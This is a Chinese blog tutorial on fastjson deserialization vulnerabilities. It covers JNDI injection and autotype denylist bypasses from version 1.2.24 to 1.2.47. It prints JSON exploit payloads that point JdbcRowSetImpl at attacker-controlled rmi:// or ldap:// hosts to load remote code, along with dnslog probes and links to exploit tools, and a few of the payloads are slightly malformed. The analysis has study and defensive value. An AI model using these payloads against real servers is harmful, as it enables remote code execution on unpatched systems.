


# fastjson 漏洞分析及复现

<!-- more -->

FastJson 是一个由阿里巴巴研发的 java 库，可以将 Java 对象转换为 JSON 格式，也可以将 JSON 字符串转换为 Java 对象。

fastjson 可以操作任何 Java 对象，即使是一些预先存在的没有源码的对象。

fastjson 源码地址：https://github.com/alibaba/fastjson

fastjson 中文 Wiki：https://github.com/alibaba/fastjson/wiki/Quick-Start-CN

## 1. fastjson 反序列化方式简介

fastjson**序列化就是将 java 对象转化为 json 字符串，而反序列化就是将 json 字符串转化为 java 对象**。

fastjson 有两种常见的处理 JSON 的方法：

- `JSON.toJSONString()`方法：可将对象转换成`JSON`字符串
- `JSON.parseObject()`方法：将`JSON`字符串转换成对象。

maven 引入

```xml
        <dependency>
            <groupId>com.alibaba</groupId>
            <artifactId>fastjson</artifactId>
            <version>xxx</version>
        </dependency>
```

User 类：

```java

public class User {
    private String username;
    private int age;

    public void setUsername(String username) {
        this.username = username;
        System.out.println("call setUsername");
    }

    public String getUsername() {
        return username;
    }

    public void setAge(int age) {
        this.age = age;
        System.out.println("call setAge");
    }

    public int getAge() {
        return age;
    }
}
```

进行序列化及反序列化：

```java
/**
 * @author :xmsong
 * @date : 2023/5/28 9:53
 */
import com.alibaba.fastjson.JSON;
import com.alibaba.fastjson.JSONObject;

public class parseObjectTest {
    public static void main( String[] args ){
//序列化
        System.out.println("---序列化---");
        User user1 = new User();
        user1.setAge(66);
        user1.setUsername("test");
        String json1 = JSON.toJSONString(user1);
        System.out.println(json1);
//反序列化
        String json2 = "{\"age\":66,\"username\":\"test\"}";

        System.out.println("---指定.class 反序列化---");
        User user2_1 = JSON.parseObject(json2, User.class); // 后面的User.class表示反序列化为User类
        System.out.println(user2_1);

        System.out.println("---不指定类 反序列化---");
        JSONObject user2_2 = JSON.parseObject(json2);
        System.out.println(user2_2);

        System.out.println("---指定@type 反序列化---");
        String json3 = "{\"@type\":\"User\", \"age\":66,\"username\":\"test\"}";
        JSONObject user3 = JSON.parseObject(json3);
        System.out.println(user3);
    }

}


// 反序列化
// 这里我们反序列化使用的是parseObject()方法，其实也可以用到parse()方法，parseObject() 本质上也是调用 parse() 进行反序列化的。
// 但是 parseObject() 会额外的将Java对象转为 JSONObject对象，即 JSON.toJSON()；
```

例如前面代码运行结果为：


> `@type`是`fastjson`中的一个特殊注解，用于标识`JSON`字符串中的某个属性是一个`Java`对象的类型。具体来说，当`fastjson`从`JSON`字符串反序列化为`Java`对象时，如果`JSON`字符串中包含`@type`属性，`fastjson`会根据该属性的值来确定反序列化后的`Java`对象的类型。

Java 实现 Excel 导入和导出 https://blog.csdn.net/bbj12345678/article/details/131370637

## 2. 反序列化漏洞基础

上面例子可以看出，fastjson 反序列化时，支持使用@type 字段来指定反序列化的类型，并调用该类的 set/get 方法来访问属性，当组件开启了 autotype 功能并且反序列化不可信数据时，攻击者可以构造数据，使目标应用的代码执行流程进入特定类的特定 setter 或者 getter 方法中，即可构造出一些恶意利用链。但需注意 JNDI 注入有 JDK 版本限制，高版本需要进行绕过。

### （1）漏洞利用前提

1. 用户能控制反序列化的类；
2. 反序列化时类中的方法会被执行。

对比上面三种方式可知，当指定目标类时，`JSON.parseObject()`会识别并调用指定的目标类的 `setter `方法及某些特定条件的 `getter `方法，而直接使用该方法返回的是`JSONObject`对象，是不会触发`setXXX`方法的（因为 JVM 也不知道是哪个类的对象）。

### （2）反序列化实现 RCE

想要在反序列化的时候调用对应方法有两种方式：

1. 在要反序列化的 JSON 字符串中没有`@types`时，需要将第二个参数设置为指定类，例如`User.class`，此时会返回一个 User 类对象。**在 parseObject()方法中传入类的方法，已经把反序列化的类固定了，没法通过用户来控制**
2. 通过@type 字段来指定该 JSON 应当还原成何种类型的对象，此时返回`JSONObject`。**使用@type 参数的方式进行反序列化，攻击者可以构造带有@type 参数的 JSON 发送给服务器。**在这个 JSON 反序列化接口处，我们传入恶意的 JSON，就可以调用任意类的构造方法以及属性相关的 get，set 方法。 如果某类的相关方法里有危险的代码（如执行某个命令），我们就可以构造恶意 JSON 达到 RCE 的作用。

### （3）JNDI 注入

**JNDI(Java Naming and Directory Interface)**是一个应用程序设计的 API，为开发人员提供了**查找和访问各种命名和目录服务**的通用、统一的接口（类似 JDBC 都是构建在抽象层上）。现在 JNDI 已经成为 J2EE 的标准之一，所有的 J2EE 容器都必须提供一个 JNDI 的服务。

**命名服务：**将 Java 对象以某个名称的形式**绑定（binding）**到一个容器环境（Context）中，以后调用容器环境（Context）的**查找（lookup）**方法又可以查找出某个名称所绑定的 Java 对象。简单来说，就是把一个 Java 对象和一个特定的名称关联在一起，方便容器后续使用。

**目录服务：**将一个对象的所有属性信息保存到一个容器环境中。JNDI 的目录（Directory）原理与 JNDI 的命名（Naming）原理非常相似，主要的区别在于目录容器环境中保存的是对象的属性信息，而不是对象本身。举个例子，Name 的作用是在容器环境中绑定一个 Person 对象，而 Directory 的作用是在容器环境中保存这个 Person 对象的属性，比如说 age=10，name=小明等等。实际上，二者往往是结合在一起使用的。

`JNDI`默认支持自动转换的协议：

| 协议名称              | 协议 URL       | Context 类                                              |
| --------------------- | -------------- | ------------------------------------------------------- |
| DNS 协议              | `dns://`       | `com.sun.jndi.url.dns.dnsURLContext`                    |
| RMI 协议              | `rmi://`       | `com.sun.jndi.url.rmi.rmiURLContext`                    |
| LDAP 协议             | `ldap://`      | `com.sun.jndi.url.ldap.ldapURLContext`                  |
| LDAP 协议             | `ldaps://`     | `com.sun.jndi.url.ldaps.ldapsURLContextFactory`         |
| IIOP 对象请求代理协议 | `iiop://`      | `com.sun.jndi.url.iiop.iiopURLContext`                  |
| IIOP 对象请求代理协议 | `iiopname://`  | `com.sun.jndi.url.iiopname.iiopnameURLContextFactory`   |
| IIOP 对象请求代理协议 | `corbaname://` | `com.sun.jndi.url.corbaname.corbanameURLContextFactory` |

---

**RMI（Remote Method Invocation）**是专为 Java 环境设计的远程方法调用机制，远程服务器实现具体的 Java 方法并提供接口，客户端本地需根据接口类的定义，提供相应的参数即可调用远程方法。

RMI 核心特点之一就是动态类加载，如果当前 JVM 中没有某个类的定义，它可以从远程 URL 去下载这个类的 class，动态加载的对象 class 文件可以使用 Web 服务的方式进行托管。这可以动态的扩展远程应用的功能，RMI 注册表上可以动态的加载绑定多个 RMI 应用。**RMI 服务端将 URL 传递给客户端，客户端通过 HTTP/HTTPS 请求下载这些类。**


---

**JNDI 注入**，即当开发者在定义 `JNDI` 接口初始化时，`lookup()` 方法的参数可控，攻击者就可以将恶意的 `url` 传入参数远程加载恶意载荷，造成注入攻击。

攻击者先准备一个恶意的命令执行的 java 类，如下：


攻击者再准备一个 RMI 服务器，当收到 rmi 的请求后，就去加载上面的恶意类，将结果返回给客户端，如下：


假设有一个客户端，使用了如下的 lookup()函数，并且参数可控，只要被攻击主机发出如下的 rmi 请求，就会加载一个远程的恶意对象，使得攻击成功。


**JDK 版本对于 JDNI 注入的限制，基于 RMI 利用的 JDK 版本<=6u141、7u131、8u121，基于 LDAP 利用的 JDK 版本<=6u211、7u201、8u191。（更高版本也有绕过）**

## 3. 漏洞分析

### 指纹判断

无特殊配置情况下 fastjson，无正确的闭合会报错，返回结果里有 fastjson 字样。


如果是配置了不返回报错信息怎么办？那这种情况就只有利用 dnslog 盲打了。


**盲打 payload**(dnslog 处填写生成的域名)

```json
// 1.2.67版本前
{"zeo":{"@type":"java.net.Inet4Address","val":"dnslog"}}
// 1.2.67版本后
{"@type":"java.net.Inet4Address","val":"dnslog"}
{"@type":"java.net.Inet6Address","val":"dnslog"}
{"@type":"java.net.InetSocketAddress"{"address":,"val":"dnslog"}}
```

### fastjson<=1.2.24

`com.sun.rowset.JdbcRowSetImpl`这个类可以被利用这个类中有很多的`setXXX`方法，我们需要利用的是`setDataSourceName()`和`setAutoCommit()`这两个方法，通过 JNDI 注入来实现 RCE。

payload 一般长这样：

```json
{"@type":"com.sun.rowset.JdbcRowSetImpl","dataSourceName":"rmi://ip:port/Exploit","autoCommit":true}
或者
{"@type":"com.sun.rowset.JdbcRowSetImpl","dataSourceName":"ldap://ip:port/Exploit","autoCommit":true}
```

攻击时只需要将如下内容发送给 fastjson:


payload 发送给服务端后会执行 setAutoCommit()，setAutoCommit()执行了 connct()函数，


connect()会对 dataSourceName 属性进行一个**InitialContext.lookup()**，从而实现 JNDI 注入。


---

### 1.2.25<=fastjson<=1.2.41

fastjson 于在 1.2.25 开始加入了黑白名单机制，继续用 1.2.24 的 payload（这里用 TemplatesImpl 的 payload）去打，会发现报错 autotype 不支持


究其原因，是因为在 com.alibaba.fastjson.parser.ParserConfig 加入了 CheckAutoType 方法，传进来的@type 的值要进入一个 checkAutoType()方法的判断：

```java
com.alibaba.fastjson.parser.ParserConfig类中：

public Class<?> checkAutoType(String typeName, Class<?> expectClass)
```

**在其中有个 autotypesupport 属性，如果为 false，那么就会检测 json 中@type 的值 开头是否与黑名单中的值一样，若一样就直接返回一个异常，然后加载白名单中的类**


黑名单长这样:

```java
this.denyList = "bsh,com.mchange,com.sun.,java.lang.Thread,java.net.Socket,java.rmi,javax.xml,org.apache.bcel,org.apache.commons.beanutils,org.apache.commons.collections.Transformer,org.apache.commons.collections.functors,org.apache.commons.collections4.comparators,org.apache.commons.fileupload,org.apache.myfaces.context.servlet,org.apache.tomcat,org.apache.wicket.util,org.codehaus.groovy.runtime,org.hibernate,org.jboss,org.mozilla.javascript,org.python.core,org.springframework".split(",");
```


**若 autotypesupport 开启，则会先白名单加载，后黑名单检测**


此处的 loadclass 方法如下：**若类名以 L 开头；结尾，则会把这两个字符去掉并加载类**。

> 至于为什么会有这种奇怪的处理，`L `和`;`这一对字符其实是 JVM 字节码中用来表示类名的


**绕过方式**：所以在 autotypesupport 开启时，我们可以构造如下 payload 来 bypass

```javascript
{"@type":"Lcom.sun.rowset.JdbcRowSetImpl;","dataSourceName":"rmi://ip:1099","autoCommit":true}
```

如何开启 autotypesupport？只需在 json 被解析前加入如下代码即可

```java
ParserConfig.getGlobalInstance().setAutoTypeSupport(true);
```



就可以在绕过黑名单检测；


在 loadclass 方法中去掉多余的字符，从而调用正确的类`JdbcRowSetImpl`。


---

### fastjson=1.2.42

42 版本中开发人员将明文黑名单改成了 hash 黑名单，已经有人碰撞出了不少；https://github.com/LeadroyaL/fastjson-blacklist

在处理前一种黑名单绕过的时候做了一个校验，如果**类名**以`L`开头，`;`结尾，则会用 stubstring 去掉(这个判断是由 HASH 来判断的）但是没有考虑到双写或多写的情况，也就是说这种方法只能防御一组 L 和;，：

```javascript
if (((-3750763034362895579L ^ (long)className.charAt(0)) * 1099511628211L ^ (long)className.charAt(className.length() - 1)) * 1099511628211L == 655701488918567152L) {
    className = className.substring(1, className.length() - 1);
}
```

**bypass（双写绕过）**

**前提：需要开启 autotype**

```javascript
{
    "@type":"LLcom.sun.rowset.JdbcRowSetImpl;;",
    "dataSourceName":"ldap://127.0.0.1:2357/Command8",
    "autoCommit":true
}
```

### fastjson=1.2.43

针对双写绕过套了个子判断。

```javascript
if (((-3750763034362895579L ^ (long)className.charAt(0)) * 1099511628211L ^ (long)className.charAt(className.length() - 1)) * 1099511628211L == 655701488918567152L) {
                if (((-3750763034362895579L ^ (long)className.charAt(0)) * 1099511628211L ^ (long)className.charAt(1)) * 1099511628211L == 655656408941810501L) {
                    throw new JSONException("autoType is not support. " + typeName);
                }

                className = className.substring(1, className.length() - 1);
            }
```

TypeUtils.loadClass 中除了对`L;`进行判断，还有对`[`进行了判断

```javascript
} else if (className.charAt(0) == '[') {
    Class<?> componentType = loadClass(className.substring(1), classLoader);
    return Array.newInstance(componentType, 0).getClass();
}
```


**Bypass**

**前提：需要开启 autotype**

构造如下 payload，具体为啥这么构造没有细跟，反正跟`[`有关

```json
{"@type":"[com.sun.rowset.JdbcRowSetImpl”[{,"dataSourceName":"ldap://localhost:9999/a","autoCommit":true}"
```

首先是`[com.sun.rowset.JdbcRowSetImpl`，通过这个方式可以过 checkAutotype 检测。

其次是`[{,"dataSourceName`，这里的`[{`主要目的是通过 fastjson 的自动检测，实际上就是对 token 进行控制，这里如果是`[`的话就会让 token 变为 14 从而通过之后的检测。

https://blog.csdn.net/qq_36869808/article/details/123201615

### fastjson<=1.2.47

44 版本针对 43 版本的绕过作了处理，[ 开头或者 L 开头 ; 结尾都会抛出异常

**Bypass**

**前提：1.2.25-1.2.32 版本：未开启 AutoTypeSupport 时能成功利用，开启 AutoTypeSupport 反而不能成功触发；1.2.33-1.2.47 版本：无论是否开启 AutoTypeSupport，都能成功利用；**

攻击 json 如下：

```json
{
  "a": {
    "@type": "java.lang.Class", //放入内存
    "val": "com.sun.rowset.JdbcRowSetImpl"
  },
  "b": {
    "@type": "com.sun.rowset.JdbcRowSetImpl", //触发payload弹计算器
    "dataSourceName": "rmi://ip/exp",
    "autoCommit": true
  }
}
```

在 DefaultJSONParser 类中。传进来的@type 的值要进入一个 checkAutoType()方法的判断：


能够看出来这个方法中，会先做一个黑白名单的判断，



在调用解析时我们没有传入预期的反序列化对象的对应类名时，会从 mapping 中或者 deserializers.findClass()寻找，当找到类之后会直接 return class，不会再进行 autotype 和黑名单校验，而在 deserializers 中有`java.lang.Class`

先在 mapping 里找 java.lang.class，找不到


去 deserializers 找，能找到


进入 checkAutoType，校验通过


在校验 autotype 和黑名单之前就已经 return 了 clazz，变相绕过了黑名单，利用 JNDI 注入实现 RCE。

### 各版本攻击方式汇总

https://github.com/safe6Sec/Fastjson

## 4. 工具使用

### JNDI 注入工具

下载地址：https://github.com/welk1n/JNDI-Injection-Exploit/tree/master，

https://github.com/wyzxxz/jndi_tool

类似的工具很多，github 搜索 JNDI 即可。

起 rmi 或 ldap 服务，命令如下：


**ldap:**


### fastjson 攻击工具

https://github.com/a1phaboy/FastjsonScan

https://github.com/mrknow001/fastjson_rec_exploit 完全基于 dnslog，适合能访问外网的靶机

防御

https://github.com/YoungBear/FastjsonPoc
